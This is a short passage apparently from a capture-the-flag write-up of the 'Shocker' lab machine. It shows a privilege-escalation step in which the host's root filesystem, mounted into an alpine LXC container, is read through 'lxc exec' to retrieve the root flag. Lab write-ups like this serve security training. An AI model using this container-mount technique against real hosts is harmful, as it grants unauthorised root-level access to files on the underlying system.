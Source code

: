 ```
```
However, we mounted the host “/” directory to the directory “/mnt/root” in the alpine container.  
So if we visit “/mnt/root”, we can see the content of the “/” directory of the host OS.
```
shelly@Shocker:/dev/shm$ lxc exec alpine-container /bin/sh
cat /mnt/root/root/root.txt
606ecc631fd2f9d3bf0b671a8aaec7fe
```
